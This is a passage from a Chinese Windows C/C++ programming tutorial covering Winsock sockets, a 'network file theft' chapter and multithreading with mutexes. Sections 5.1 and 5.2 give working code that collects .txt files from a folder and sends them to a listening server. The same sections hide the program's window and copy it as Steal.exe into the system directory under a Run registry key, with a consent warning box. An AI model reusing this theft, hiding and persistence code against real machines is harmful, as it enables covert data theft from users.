bytesRead; continue ; } else if (bytesRead < 0 && errno == EAGAIN) { continue ; } else { return -1 ; } } } int MySocketSend0 (int socketNum, unsigned char * data, unsigned dataSize) unsigned numBytesSentSoFar = 0 ; unsigned numBytesRemainingToSend = dataSize; while (1 ) { int bytesSend = send (socketNum, (char const *)(&data[numBytesSentSoFar]), numBytesRemainingToSend, 0 ); if (bytesSend == numBytesRemainingToSend) { return 0 ; } else if (bytesSend > 0 ) { numBytesSentSoFar += bytesSend; numBytesRemainingToSend -= bytesSend; continue ; } else if (bytesSend < 0 && errno == 11 ) { continue ; } else { return -1 ; } } } #pragma warning (disable:4996) int getCurrentTimeStr (char * strtime) time_t now = time (NULL ); tm* ltm = localtime (&now); sprintf (strtime, "%2d:%2d:%2d" , ltm->tm_hour, ltm->tm_min, ltm->tm_sec); return 0 ; } void ErrorHandling (const char * message) fputs (message, stderr); fputc ('\n' , stderr); char ch[64 ]; getCurrentTimeStr (ch); printf ("error num = %d, error time %s\n" , ::GetLastError (), ch); system ("pause" ); exit (-1 ); }
📋基于3.4.1修改后的客户端：
新增解决报错 C4996：#pragma warning(disable:4996)【详见第九章】 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 123 124 125 126 127 128 129 130 131 132 133 134 135 136 137 138 139 140 141 142 143 144 145 146 147 148 149 150 151 152 153 154 155 156 157 158 159 160 161 162 163 164 165 166 167 168 169 170 171 172 173 174 175 176 177 178 179 180 181 182 183 184 185 186 187 188 189 190 191 192 193 194 195 196 197 198 199 200 201 202 #include <stdio.h> #include <stdlib.h> #include <WinSock2.h> #include <time.h> #pragma comment(lib,"ws2_32.lib" ) #define MAX_ARRAYSIZE (1024*1024*10) char message[MAX_ARRAYSIZE];int ClientConnect () int MySocketRecv0 (int sock, char * buf, int dateSize) int MySocketSend0 (int socketNum, unsigned char * data, unsigned dataSize) void ErrorHandling (const char * message) int getCurrentTimeStr (char * strtime) void initArray (char c) int main () ClientConnect (); system ("pause" ); return 0 ; } int ClientConnect () printf ("TCP Client\n" ); WSADATA wsaData; if (WSAStartup (MAKEWORD (1 , 1 ), &wsaData) != 0 ) { ErrorHandling ("WSAStartup() error!" ); } if (LOBYTE (wsaData.wVersion) != 1 || HIBYTE (wsaData.wVersion) != 1 ) { WSACleanup (); return -1 ; } char ch[64 ] = { 0 }; initArray ('c' ); SOCKET hsock = socket (AF_INET, SOCK_STREAM, 0 ); if (hsock == INVALID_SOCKET) { ErrorHandling ("Server socket errno: %d\n" ); } getCurrentTimeStr (ch); printf ("begin connect %s\n" , ch); SOCKADDR_IN addrServ; memset (&addrServ, 0 , sizeof (addrServ)); int szAddrCnt = sizeof (addrServ); addrServ.sin_family = AF_INET; addrServ.sin_addr.S_un.S_addr = inet_addr ("127.0.0.1" ); addrServ.sin_port = htons (6000 ); if (SOCKET_ERROR == connect (hsock, (sockaddr*)&addrServ, sizeof (addrServ))) { ErrorHandling ("connect ERROR\n" ); system ("pause" ); return -1 ; } getCurrentTimeStr (ch); printf ("after connect %s\n" , ch); int strLen = send (hsock, message, strlen (message) - 1 , 0 ); printf ("after send %d\n" , strLen); int ret = MySocketRecv0 (hsock, message, strlen (message) - 1 ); printf ("Message from server: ,ret = %d\n" , ret); if (strLen == -1 ) ErrorHandling ("read() error!" ); getCurrentTimeStr (ch); printf ("after recv %s\n" , ch); closesocket (hsock); WSACleanup (); system ("pause" ); return 0 ; } int MySocketRecv0 (int sock, char * buf, int dataSize) int numsRecvSoFar = 0 ; int numsRemainingToRecv = dataSize; printf ("MySocketRecv0\n" ); while (1 ) { int bytesRead = recv (sock, buf + numsRecvSoFar, numsRemainingToRecv, 0 ); printf ("###bytesRead = %d,numsRecvSoFar = %d, numsRemainingToRecv = %d\n" , bytesRead, numsRecvSoFar, numsRemainingToRecv); if (bytesRead == numsRemainingToRecv) { return 0 ; } else if (bytesRead > 0 ) { numsRecvSoFar += bytesRead; numsRemainingToRecv -= bytesRead; continue ; } else if (bytesRead < 0 && errno == EAGAIN) { continue ; } else { return -1 ; } } } int MySocketSend0 (int socketNum, unsigned char * data, unsigned dataSize) unsigned numBytesSentSoFar = 0 ; unsigned numBytesRemainingToSend = dataSize; while (1 ) { int bytesSend = send (socketNum, (char const *)(&data[numBytesSentSoFar]), numBytesRemainingToSend, 0 ); if (bytesSend == numBytesRemainingToSend) { return 0 ; } else if (bytesSend > 0 ) { numBytesSentSoFar += bytesSend; numBytesRemainingToSend -= bytesSend; continue ; } else if (bytesSend < 0 && errno == 11 ) { continue ; } else { return -1 ; } } } #pragma warning (disable:4996) int getCurrentTimeStr (char * strtime) time_t now = time (NULL ); tm* ltm = localtime (&now); sprintf (strtime, "%2d:%2d:%2d" , ltm->tm_hour, ltm->tm_min, ltm->tm_sec); return 0 ; } void ErrorHandling (const char * message) fputs (message, stderr); fputc ('\n' , stderr); char ch[64 ]; getCurrentTimeStr (ch); printf ("error num = %d, error time %s\n" , ::GetLastError (), ch); system ("pause" ); exit (-1 ); } void initArray (char c) int i = 0 ; for (i = 0 ; i < MAX_ARRAYSIZE; i++) { message[i] = c; } }
五 网络编程实战 5.1 网络编程实战之网络文件截取
Windows文件结构体：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 typedef WIN32_FIND_DATAA WIN32_FIND_DATA;typedef struct _WIN32_FIND_DATAA { DWORD dwFileAttributes; FILETIME ftCreationTime; FILETIME ftLastAccessTime; FILETIME ftLastWriteTime; DWORD nFileSizeHigh; DWORD nFileSizeLow; DWORD dwReserved0; DWORD dwReserved1; _Field_z_ CHAR cFileName[ MAX_PATH ]; _Field_z_ CHAR cAlternateFileName[ 14 ]; }
5.1.1 客户端Client实现 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 123 124 125 126 127 128 129 130 131 132 133 134 135 136 137 138 139 140 141 142 143 144 145 146 #include <stdio.h> #include <iostream> #include <WinSock2.h> #include <time.h> #pragma comment(lib,"ws2_32.lib" ) #pragma warning (disable:4996) int DoSteal (const char *) int SendtoServer (const char *) void ErrorHandling (const char * message, int ERRNO) int getCurrentTimeStr (char * strtime) int main () printf ("TCP Client\n" ); int ret_steal = DoSteal ("E:\\About Chase\\Art of Programming-2024\\CPP\\test_f" ); system ("pause" ); return 0 ; } int DoSteal (const char * szPATH) WIN32_FIND_DATA FindFileData; HANDLE hListFile; char szFilePath[MAX_PATH] = { 0 }; strcpy (szFilePath, szPATH); strcat (szFilePath, "\\*" ); hListFile = FindFirstFile (szFilePath, &FindFileData); do { char mypath[MAX_PATH] = { 0 }; strcpy (mypath, szPATH); strcat (mypath, "\\" ); strcat (mypath, FindFileData.cFileName); printf ("FileName:%s\n" , mypath); if (strstr (mypath, ".txt" )) { SendtoServer (mypath); } } while (FindNextFile (hListFile, &FindFileData)); return 0 ; } int SendtoServer (const char * path) WSADATA wsaData; if (WSAStartup (MAKEWORD (2 , 2 ), &wsaData) != 0 ) { ErrorHandling ("WSAStartup() error!" , WSAGetLastError ()); } if (LOBYTE (wsaData.wVersion) != 2 || HIBYTE (wsaData.wVersion) != 2 ) { WSACleanup (); return -1 ; } char ch[64 ] = { 0 }; char sendBuf[1024 ] = { 0 }; SOCKET sock_cli = socket (AF_INET, SOCK_STREAM, 0 ); if (sock_cli == INVALID_SOCKET) { ErrorHandling ("Server socket errno: %d\n" , WSAGetLastError ()); } SOCKADDR_IN addrServ; int szAddrServ = sizeof (addrServ); memset (&addrServ, 0 , sizeof (addrServ)); addrServ.sin_family = AF_INET; addrServ.sin_addr.S_un.S_addr = inet_addr ("127.0.0.1" ); addrServ.sin_port = htons (44444 ); getCurrentTimeStr (ch); printf ("Begin connect %s\n" , ch); if (SOCKET_ERROR == connect (sock_cli, (sockaddr*)&addrServ, sizeof (addrServ))) { ErrorHandling ("Server socket errno: %d\n" , WSAGetLastError ()); } FILE* fp = fopen (path, "rb" ); int len = fread (sendBuf, 1 , 1024 , fp); fclose (fp); int strLen = sendto (sock_cli, sendBuf, strlen (sendBuf) + 1 , 0 , (sockaddr*)&addrServ, szAddrServ); printf ("After send %d\n" , strLen); if (strLen == -1 ) ErrorHandling ("send error!" , WSAGetLastError ()); getCurrentTimeStr (ch); printf ("After send: %s\n" , ch); closesocket (sock_cli); WSACleanup (); return 0 ; } int getCurrentTimeStr (char * strtime) time_t now = time (NULL ); tm* ltm = localtime (&now); sprintf (strtime, "%2d:%2d:%2d" , ltm->tm_hour, ltm->tm_min, ltm->tm_sec); return 0 ; } void ErrorHandling (const char * message, int ERRNO) fputs (message, stderr); fputc ('\n' , stderr); char ch[64 ]; getCurrentTimeStr (ch); printf ("Error num = %d, Error time %s\n" , ERRNO, ch); system ("pause" ); exit (-1 ); }
5.1.2 服务端实现 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 #include <stdio.h> #include <iostream> #include <WinSock2.h> #include <time.h> #pragma comment(lib,"ws2_32.lib" ) #pragma warning (disable:4996) #define MAX_SIZE 1024 int getCurrentTimeStr (char * strtime) void ErrorHandling (const char * message, int ERRNO) int main () printf ("TCP Server\n" ); WSADATA wsaData; if (WSAStartup (MAKEWORD (1 , 1 ), &wsaData) != 0 ) { ErrorHandling ("WSAStartup() error!" , WSAGetLastError ()); } if (LOBYTE (wsaData.wVersion) != 1 || HIBYTE (wsaData.wVersion) != 1 ) { WSACleanup (); ErrorHandling ("LOBYTE() error!" , WSAGetLastError ()); } char ch[64 ] = { 0 }; SOCKET sockServ = socket (AF_INET, SOCK_STREAM, 0 ); if (sockServ == INVALID_SOCKET) { ErrorHandling ("Server socket Error!" , WSAGetLastError ()); } SOCKADDR_IN addrServ, addrClient; memset (&addrServ, 0 , sizeof (addrServ)); memset (&addrClient, 0 , sizeof (addrClient)); int szAddrCnt = sizeof (addrClient); addrServ.sin_family = AF_INET; addrServ.sin_addr.S_un.S_addr = htonl (INADDR_ANY); addrServ.sin_port = htons (44444 ); if (SOCKET_ERROR == bind (sockServ, (sockaddr*)&addrServ, sizeof (addrServ))) { ErrorHandling ("Bind ERROR" , WSAGetLastError ()); } if (SOCKET_ERROR == listen (sockServ, 5 )) { ErrorHandling ("listen ERROR" , WSAGetLastError ()); } char recvBuf[MAX_SIZE] = { 0 }; int strLen = 0 ; while (true ) { SOCKET client = accept (sockServ, (sockaddr*)&addrClient, &szAddrCnt); if (SOCKET_ERROR == client) { ErrorHandling ("accept ERROR" , WSAGetLastError ()); } memset (recvBuf, 0 , MAX_SIZE); while ((strLen = recv (client, recvBuf, MAX_SIZE, 0 )) != 0 ) { printf ("Server message: %s\n" , recvBuf); } closesocket (client); } closesocket (sockServ); system ("pause" ); return 0 ; } int getCurrentTimeStr (char * strtime) time_t now = time (NULL ); tm* ltm = localtime (&now); sprintf (strtime, "%2d:%2d:%2d" , ltm->tm_hour, ltm->tm_min, ltm->tm_sec); return 0 ; } void ErrorHandling (const char * message, int ERRNO) fputs (message, stderr); fputc ('\n' , stderr); char ch[64 ]; getCurrentTimeStr (ch); printf ("Error num = %d, Error time %s\n" , ERRNO, ch); system ("pause" ); exit (-1 ); }
注意：
<windows.h> 与<WinSock2.h> 相互冲突printf 输出可能会因为缓存卡在某处，推荐使用fputs或Linuxprintf 与 fputs的区别：
puts()显示字符串时自动在其后添加一个换行符，函数里的参数是一个地址，从该地址向后面输出，直到遇到空字符，所以要确保输出的字符串里要有空字符。与gets()函数一起使用。fputs()需要第二个参数来说明要写的文件，与puts()不同，fputs()不为输出自动添加换行符。与fgets()一起使用。printf()格式化输入输出，与gets()函数一致需要一个字符串地址作为参数。总结：
只要是文件遍历，我们要立马想到WIN32_FIND_DATA结构体，其包含文件名和文件信息、创建时间、访问时间等
句柄 — 即指针，用来表示windows下面的一些对象
MAX_PATH 涉及到windows路径的数组变量 260
禁用特定警告4996
怎么样隐藏自身【5.2节】
怎么样写入到注册表 【5.2节】
错误处理函数
1 2 3 4 5 6 void ErrorHanding (const char *msg) fputs (msg, stderr); fputc ('\n' , stderr); exit (1 ); }
5.2 隐藏进程与修改注册表 对客户端的优化：写入注册表
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 123 124 125 126 127 128 129 130 131 132 133 134 135 136 137 138 139 140 141 142 143 144 145 146 147 148 149 150 151 152 153 154 155 156 157 158 159 160 161 162 163 164 165 166 167 168 169 170 171 172 173 174 175 176 177 178 179 180 181 182 183 184 185 186 187 188 189 190 191 192 193 194 195 196 197 198 199 200 201 202 203 204 205 206 207 208 209 210 211 212 213 214 215 #include <stdio.h> #include <iostream> #include <WinSock2.h> #include <time.h> #include <io.h> #pragma comment(lib,"ws2_32.lib" ) #pragma warning (disable:4996) int DoSteal (const char *) int SendtoServer (const char *) void ErrorHandling (const char * message, int ERRNO) int getCurrentTimeStr (char * strtime) void AddToSystem () void HideMyself () int main () HideMyself (); AddToSystem (); printf ("TCP Client\n" ); int ret_steal = DoSteal ("E:\\About Chase\\Art of Programming-2024\\CPP\\test_f" ); system ("pause" ); return 0 ; } int DoSteal (const char * szPATH) WIN32_FIND_DATA FindFileData; HANDLE hListFile; char szFilePath[MAX_PATH] = { 0 }; strcpy (szFilePath, szPATH); strcat (szFilePath, "\\*" ); hListFile = FindFirstFile (szFilePath, &FindFileData); do { char mypath[MAX_PATH] = { 0 }; strcpy (mypath, szPATH); strcat (mypath, "\\" ); strcat (mypath, FindFileData.cFileName); printf ("FileName:%s\n" , mypath); if (strstr (mypath, ".txt" )) { SendtoServer (mypath); } } while (FindNextFile (hListFile, &FindFileData)); return 0 ; } int SendtoServer (const char * path) WSADATA wsaData; if (WSAStartup (MAKEWORD (2 , 2 ), &wsaData) != 0 ) { ErrorHandling ("WSAStartup() error!" , WSAGetLastError ()); } if (LOBYTE (wsaData.wVersion) != 2 || HIBYTE (wsaData.wVersion) != 2 ) { WSACleanup (); return -1 ; } char ch[64 ] = { 0 }; char sendBuf[1024 ] = { 0 }; SOCKET sock_cli = socket (AF_INET, SOCK_STREAM, 0 ); if (sock_cli == INVALID_SOCKET) { ErrorHandling ("Server socket errno: %d\n" , WSAGetLastError ()); } SOCKADDR_IN addrServ; int szAddrServ = sizeof (addrServ); memset (&addrServ, 0 , sizeof (addrServ)); addrServ.sin_family = AF_INET; addrServ.sin_addr.S_un.S_addr = inet_addr ("127.0.0.1" ); addrServ.sin_port = htons (44444 ); getCurrentTimeStr (ch); printf ("Begin connect %s\n" , ch); if (SOCKET_ERROR == connect (sock_cli, (sockaddr*)&addrServ, sizeof (addrServ))) { ErrorHandling ("Server socket errno: %d\n" , WSAGetLastError ()); } FILE* fp = fopen (path, "rb" ); int len = fread (sendBuf, 1 , 1024 , fp); fclose (fp); int strLen = sendto (sock_cli, sendBuf, strlen (sendBuf) + 1 , 0 , (sockaddr*)&addrServ, szAddrServ); printf ("After send %d\n" , strLen); if (strLen == -1 ) ErrorHandling ("send error!" , WSAGetLastError ()); getCurrentTimeStr (ch); printf ("After send: %s\n" , ch); closesocket (sock_cli); WSACleanup (); return 0 ; } int getCurrentTimeStr (char * strtime) time_t now = time (NULL ); tm* ltm = localtime (&now); sprintf (strtime, "%2d:%2d:%2d" , ltm->tm_hour, ltm->tm_min, ltm->tm_sec); return 0 ; } void ErrorHandling (const char * message, int ERRNO) fputs (message, stderr); fputc ('\n' , stderr); char ch[64 ]; getCurrentTimeStr (ch); printf ("Error num = %d, Error time %s\n" , ERRNO, ch); system ("pause" ); exit (-1 ); } void AddToSystem () HKEY hKEY; char CurrentPath[MAX_PATH]; char SysPath[MAX_PATH]; long ret = 0 ; LPSTR FileNewName; LPSTR FileCurrentName; DWORD type = REG_SZ; DWORD size = MAX_PATH; LPCTSTR Rgspath = "Software\\Microsoft\\Windows\\CurrentVersion\\Run" ; GetSystemDirectory (SysPath, size); GetModuleFileName (NULL , CurrentPath, size); FileCurrentName = CurrentPath; FileNewName = lstrcat (SysPath, "\\Steal.exe" ); struct _finddata_t Steal; printf ("ret1 = %d,FileNewName = %s\n" , ret, FileNewName); if (_findfirst(FileNewName, &Steal) != -1 ) return ; printf ("ret2 = %d\n" , ret); int ihow = MessageBox (0 , "该程序只允许用于合法的用途！\n继续运行该程序将使这台机器处于被监控的状态！\n如果您不想这样，请按“取消”按钮退出。\n按下“是”按钮该程序将被复制到您的机器上，并随系统启动自动运行。\n按下“否”按钮，程序只运行一次，不会在您的系统内留下任何东西。" , "警告" , MB_YESNOCANCEL | MB_ICONWARNING | MB_TOPMOST); if (ihow == IDCANCEL) exit (0 ); if (ihow == IDNO) return ; ret = CopyFile (FileCurrentName, FileNewName, TRUE); if (!ret) { return ; } printf ("ret = %d\n" , ret); ret = RegOpenKeyEx (HKEY_LOCAL_MACHINE, Rgspath, 0 , KEY_WRITE, &hKEY); if (ret != ERROR_SUCCESS) { RegCloseKey (hKEY); return ; } ret = RegSetValueEx (hKEY, "Steal" , NULL , type, (const unsigned char *)FileNewName, size); if (ret != ERROR_SUCCESS) { RegCloseKey (hKEY); return ; } RegCloseKey (hKEY); } void HideMyself () HWND hwnd = GetForegroundWindow (); ShowWindow (hwnd, SW_HIDE); }
六 多线程 6.1基本概念 引入一个题目：
老师提了一个需求：打印 每隔3秒叫小红俯卧撑：持续20次 每隔4秒钟小明做一次甩头发：持续30次 每隔2秒钟叫老王唱歌：持续50次 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 #include <stdio.h> #include <Windows.h> int main_hong (int count) for (int i = 0 ; i < count; i++) { printf ("第%d次俯卧撑\n" , i + 1 ); Sleep (3000 ); } return 0 ; } int main_ming (int count) for (int i = 0 ; i < count; i++) { printf ("第%d次甩头\n" , i + 1 ); Sleep (3000 ); } return 0 ; } int main_wang (int count) for (int i = 0 ; i < count; i++) { printf ("第%d次唱歌\n" , i + 1 ); Sleep (3000 ); } return 0 ; } int main () int count1 = 20 , count2 = 30 , count3 = 50 ; main_hong (count1); main_ming (count2); main_wang (count3); system ("pause" ); return 0 ; }
程序顺序执行，执行结束共需要时间为：(3x20 + 4x30 + 2x50)s
线程是在进程中产生的一个执行单元，是CPU调度和分配的最小单元，其在同一个进程中与其他线程并行运行，他们可以共享进程内的资源，比如内存、地址空间、打开的文件等等。
线程 是CPU调度和分派的基本单位【工人】进程 是分配资源的基本单位【车间】进程 ：正在运行的程序【狭义】。
【广义】进程是处于执行期的程序以及它所管理的资源（如打开的文件、挂起的信号、进程状态、地址空间等等）的总称。从操作系统核心角度来说，进程是操作系统调度除CPU时间片外进行的资源分配和保护的基本单位，它有一个独立的虚拟地址空间，用来容纳进程映像(如与进程关联的程序与数据)，并以进程为单位对各种资源实施保护，如受保护地访问处理器、文件、外部设备及其他进程(进程间通信) 。
如何理解进程和线程？
计算机有很多资源组成，比如CPU、内存、磁盘、鼠标、键盘等，就像一个工厂由电力系统、作业车间、仓库、管理办公室和工人组成。
假定工厂的电力有限，一次只能供给一个或少量几个车间使用。也就是说，一部分车间开工的时候，其他车间都必须停工。背后的含义就是，单个CPU一次只能运行一个任务，多个CPU能够运行少量任务。
线程就好比车间里的工人。一个进程可以包括多个线程，他们协同完成某一个任务。
为什么使用多线程？
避免阻塞：单个进程只有一个主线程，当主线程阻塞的时候，整个进程也就阻塞了，无法再去做其它的一些功能了。
避免CPU空转：应用程序经常会涉及到RPC，数据库访问，磁盘IO等操作，这些操作的速度比CPU慢很多，而在等待这些响应时，CPU却不能去处理新的请求，导致这种单线程的应用程序性能很差。【 cpu > 内存 > 磁盘】
提升效率：一个进程要独立拥有4GB的虚拟地址空间，而多个线程可以共享同一地址空间，线程的切换比进程的切换要快得多。
6.2 线程创建函数 CreateThread是一种微软在Windows API 中提供了建立新的线程的函数，该函数在主线程的基础上创建一个新线程。线程终止运行后，线程对象仍然在系统中，必须通过CloseHandle函数来关闭该线程对象。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 #include <windows.h> #include <process.h> HANDLE CreateThread ( LPSECURITY_ATTRIBUTES lpThreadAttributes, SIZE_T dwStackSize, LPTHREAD_START_ROUTINE lpStartAddress, LPVOID lpParameter, DWORD dwCreationFlags, LPDWORD lpThreadId )
另一个线程创建函数【更常用】：_beginthread / _beginthreadex【常用后者】
1 2 3 4 5 6 7 8 9 10 #include <process.h> unsigned long _beginthreadex( void *security, unsigned stack_size, unsigned (_stdcall *start_address)(void *), void *argilist, unsigned initflag, unsigned *threaddr );
__stdcall表示
线程编码示例：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 #include <stdio.h> #include <windows.h> #include <process.h> DWORD WINAPI ThreadFun (LPVOID p) int iMym = (int )p; printf ("我是子线程，PID = %d,iMym = %d\n" , GetCurrentThreadId (), iMym); return 0 ; } int main () printf ("main begin\n" ); HANDLE hThread; DWORD dwThreadID; int m = 100 ; hThread = CreateThread (NULL , 0 , ThreadFun, &m, 0 , &dwThreadID); printf ("我是主线程，PID = %d\n" , GetCurrentThreadId ()); CloseHandle (hThread); Sleep (2000 ); system ("pause" ); return 0 ; }
6.3 简单多线程示例 6.3.1 理解内核对象 定义：内核对象 通过API来创建，每个内核对象是一个数据结构，它对应一块内存，由操作系统内核分配，并且只能由操作系统内核访问。
在此数据结构中少数成员【如安全描述符 security、使用计数】是所有对象都有的，但其他大多数成员都是不同类型的对象特有的。 内核对象的数据结构只能由操作系统提供的API访问，应用程序在内存中不能访问。 调用创建内核对象的函数后，该函数会返回一个句柄，它标识了所创建的对象。它可以由进程的任何线程使用。CreateProcess CreateThread CreateFile event Job Mutex 常见的内核对象 : 进程、线程、文件，存取符号对象、事件对象、文件对象、作业对象、互斥对象、管道对象、等待计时器对象，邮件槽对象，信号对象
内核对象 ：为了管理线程/文件等资源而由操作系统创建的数据块，其创建的所有者肯定是操作系统。
6.3.2 举例 🔺第一个例子：主线程和子线程的结束时间【main函数返回后，整个进程终止，同时终止其包含的所有线程】
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 #include <stdio.h> #include <windows.h> #include <process.h> DWORD WINAPI ThreadFun (LPVOID p) int iMym = *(int *)p; printf ("我是子线程，PID = %d,iMym = %d\n" , GetCurrentThreadId (), iMym); for (int i = 0 ; i < iMym; i++) { printf ("sleep\n" ); Sleep (1000 ); } return 0 ; } int main () printf ("main begin\n" ); HANDLE hThread; DWORD dwThreadID; int m = 100 ; hThread = CreateThread (NULL , 0 , ThreadFun, &m, 0 , &dwThreadID); if (hThread == 0 ) { puts ("CreateThread() error" ); return -1 ; } printf ("我是主线程，PID = %d\n" , GetCurrentThreadId ()); CloseHandle (hThread); Sleep (10000 ); system ("pause" ); return 0 ; }
🔺第二个例子：WaitForSingleObject()【来等待一个内核对象变为已通知状态】
1 2 3 4 5 WaitForSingleObject ( _In_ HANDLE hHandle, _In_ DWORD dwMilliseconds );
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 #include <stdio.h> #include <windows.h> #include <process.h> DWORD WINAPI ThreadFun (LPVOID p) int iMym = *(int *)p; printf ("我是子线程，PID = %d,iMym = %d\n" , GetCurrentThreadId (), iMym); for (int i = 0 ; i < iMym; i++) { printf ("sleep\n" ); Sleep (1000 ); } return 0 ; } int main () printf ("main begin\n" ); HANDLE hThread; DWORD dwThreadID; DWORD wr; int m = 10 ; hThread = CreateThread (NULL , 0 , ThreadFun, &m, 0 , &dwThreadID); if (hThread == 0 ) { puts ("CreateThread() error" ); return -1 ; } printf ("我是主线程，PID = %d\n" , GetCurrentThreadId ()); printf ("*****************begin WaitForSingleObject\n" ); if ((wr = WaitForSingleObject (hThread, INFINITE)) == WAIT_FAILED) { puts ("thread wait error\n" ); return -1 ; } printf ("*****************end WaitForSingleObject\n" ); CloseHandle (hThread); Sleep (3000 ); system ("pause" ); return 0 ; }
🔺第三个例子：起两个线程，一个加+1，一个减1【前面还是单子线程，下面是多线程示例】【线程同步】
1 2 3 4 5 6 7 WaitForMultipleObjects ( _In_ DWORD nCount, _In_reads_(nCount) CONST HANDLE* lpHandles, _In_ BOOL bWaitAll, _In_ DWORD dwMilliseconds );
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 #include <stdio.h> #include <windows.h> #include <process.h> #define NUM_THREAD 50 long long num = 0 ;DWORD WINAPI ThreadInc (void * p) int i; for (i = 0 ; i < 500000 ; i++) { num += 1 ; } return 0 ; } DWORD WINAPI ThreadDec (void * p) int i; for (i = 0 ; i < 500000 ; i++) { num -= 1 ; } return 0 ; } int main () printf ("main begin\n" ); HANDLE hHandles[NUM_THREAD]; int i = 0 ; printf ("sizeof(long long):%d\n" , sizeof (long long )); for (i = 0 ; i < NUM_THREAD; i++) { if (i % 2 ) hHandles[i] = CreateThread (NULL , 0 , ThreadInc, NULL , 0 , NULL ); else hHandles[i] = CreateThread (NULL , 0 , ThreadDec, NULL , 0 , NULL ); } printf ("*****************begin WaitForSingleObject\n" ); WaitForMultipleObjects (NUM_THREAD, hHandles, TRUE, INFINITE); printf ("num=%d\n" , num); printf ("*****************end WaitForSingleObject\n" ); system ("pause" ); return 0 ; }
执行结果：没有加入线程，必然没有确定的答案。
6.4 线程同步与互斥对象 互斥对象(mutex)属于内核对象，它能够确保线程拥有对单个资源的互斥访问权。
互斥对象包含一个使用数量，一个线程ID和一个计数器。其中，线程ID用于标识系统中的哪个线程当前拥有互斥对象，计数器用于指明该线程拥有互斥对象的次数。
创建互斥对象：调用函数CreateMutex。调用成功，该函数返回所创建的互斥对象的句柄。 请求互斥对象所有权：调用函数WaitForSingleObject函数。线程必须主动请求共享对象的所有权才能获得所有权。 释放指定互斥对象的所有权：调用ReleaseMutex函数。线程访问共享资源结束后，线程要主动释放对互斥对象的所有权，使该对象处于已通知状态。 1 2 3 4 5 6 CreateMutexW ( _In_opt_ LPSECURITY_ATTRIBUTES lpMutexAttributes, _In_ BOOL bInitialOwner, _In_opt_ LPCWSTR lpName );
示例：在上节代码中添加最简单的PV操作，即WaitForSingleObject / ReleaseMutex 操作。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 #include <stdio.h> #include <windows.h> #include <process.h> #define NUM_THREAD 50 long long num = 0 ;HANDLE hMutex; DWORD WINAPI ThreadInc (void * p) int i; WaitForSingleObject (hMutex, INFINITE); for (i = 0 ; i < 500000 ; i++) { num += 1 ; } ReleaseMutex (hMutex); return 0 ; } DWORD WINAPI ThreadDec (void * p) int i; WaitForSingleObject (hMutex, INFINITE); for (i = 0 ; i < 500000 ; i++) { num -= 1 ; } ReleaseMutex (hMutex); return 0 ; } int main () printf ("main begin\n" ); HANDLE hHandles[NUM_THREAD]; hMutex = CreateMutexW (NULL , FALSE, NULL ); int i = 0 ; printf ("sizeof(long long):%d\n" , sizeof (long long )); for (i = 0 ; i < NUM_THREAD; i++) { if (i % 2 ) hHandles[i] = CreateThread (NULL , 0 , ThreadInc, NULL , 0 , NULL ); else hHandles[i] = CreateThread (NULL , 0 , ThreadDec, NULL , 0 , NULL ); } printf ("*****************begin WaitForSingleObject\n" ); WaitForMultipleObjects (NUM_THREAD, hHandles, TRUE, INFINITE); printf ("num=%d\n" , num); printf ("*****************end WaitForSingleObject\n" ); system ("pause" ); return 0 ; }
注意：此处的WaitForSingleObject 等待的是互斥量的内核对象；上节等待的线程的内核对象。
6.5 多线程实现QQ群聊 📋服务端
多线程 + socket编程 用互斥体进行线程同步 临界区 全局变量 📋服务端的设计：
